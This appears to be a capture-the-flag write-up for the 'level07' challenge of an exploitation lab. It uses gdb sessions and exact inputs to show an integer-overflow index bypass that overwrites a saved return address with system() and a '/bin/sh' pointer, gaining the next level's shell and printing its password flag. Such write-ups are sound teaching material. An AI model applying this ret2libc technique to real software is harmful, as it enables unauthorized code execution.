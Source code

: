 # level07

This program clear `argv` and `env` and waits for a command in a loop:

- `store`: store a number at address `$buffer + $index * 4`
- `read`: read a number at `$buffer + $index * 4`
- `quit`: quit the program

We also can't :

- store a number where number >> 24 == 183
- store a number where index % 3 == 0

We try to overvwrite an address of the GOT but address are randomized and it didn't work in real environment:

```bash
level07@OverRide:~$ objdump -R level07 
...
0804a014 R_386_JUMP_SLOT   puts
...
(gdb) r
Input command: store

Breakpoint 1, 0x080488ea in main ()
(gdb) x $esp
0xffffd520:     0xffffd544
(gdb) p/d (0x0804a014 - 0xffffd544) / 4
$2 = 33632948
...
Input command: store
 Number: 42424242
 Index: 33632948
 Completed store command successfully
Input command: store
 Number: 42
 Index: 3

Program received signal SIGSEGV, Segmentation fault.
0x028757b2 in ?? ()
```

We can try to overwrite `eip` even if a canary is present to bypass this. The passed to  `store_number` function begins at `0xffffd544` in `main`, 456 bytes from `eip`:

```gdb
Input command: store

Breakpoint 1, 0x080488ea in main ()
(gdb) x/wx $esp
0xffffd520:     0xffffd544
(gdb) x/wx $ebp+4
0xffffd70c:     0xf7e45513
(gdb) p/d (0xffffd70c - 0xffffd544) / 4
$8 = 114
```

We can see that a number at index 114 can't be stored (144 % 3 = 0).

By passing the max int `2147483647` + 1, we can see that we write at index 0, so we can add 114 to write on index 114:

```gdb
Input command: store     
 Number: 42
 Index: 2147483648
 Completed store command successfully
Input command: read
 Index: 0
 Number at data[0] is 42
 Completed read command successfully
Input command: store
 Number: 42
 Index: 2147483762
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 42
 Completed read command successfully
```

We can see that `execve` function is available in the stack:

```gdb
(gdb)  info functions execve
All functions matching regular expression "execve":

Non-debugging symbols:
0xf7ee45e0  execve
0xf7ee4640  fexecve
```

We can now pass it as number of index 114. As argument, we can also find a `/bin/sh` string in the stack:

```gdb
(gdb) info proc map
process 1864
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
         0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
         0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
...
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
```

We can now try to overwrite index 114 and 116, as 1st argument is taken from `$ebp + 8` in functions:

```bash
Input command: store
 Number: 4159587808
 Index: 2147483762
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 2147483764
 Completed store command successfully
Input command: read
 Index: 116
 Number at data[116] is 4160264172
 Completed read command successfully
Input command: quit    
: 0: Can't open 
```

Try with system:

```bash
Input command: store
 Number: 4159090384
 Index: 2147483762
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 2147483764
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cd /home/users/level08
$ cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
